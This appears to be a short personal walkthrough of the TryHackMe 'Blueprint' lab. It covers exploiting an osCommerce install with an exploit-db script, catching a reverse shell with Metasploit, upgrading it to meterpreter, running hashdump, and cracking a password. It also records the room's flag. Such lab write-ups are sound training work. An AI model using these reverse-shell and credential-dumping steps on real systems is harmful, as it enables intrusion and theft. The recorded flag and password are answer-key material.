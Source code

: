 # Matheus Jesus 06-04-2020

## Try Hack Me - Blueprint (https://tryhackme.com/room/blueprint)

## REF https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-blueprint/

## IP 10.10.105.165

### 8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)

### exploit-db on OSCommerce CMS - https://www.exploit-db.com/exploits/44374

### Exploiting

Download script from exploit-db

Change IP Addresses

Reverse shell on PHP

Run script -> access page to execute script (http://10.10.105.165:8080/oscommerce-2.3.4/catalog/install/includes/configure.php)

### Metasploit

```text
use multi/handler
set payload windows/shell/reverse_tcp
set lhost tun0
set lport 1234
run
```

```text
use multi/manage/shell_to_meterpreter
set SESSION 1
set LPORT 4433
run
```

run hashdump

### Crack Hash

get hash for Lab user
Crack online (because rockyou.txt does not contain the word)
password -> googleplus

### Back to Metasploit

```text
search -f root.txt*
```

Found it on c:\Users\Administrator\Desktop\root.txt.txt

THM{aea1e3ce6fe7f89e10cea833ae009bee}
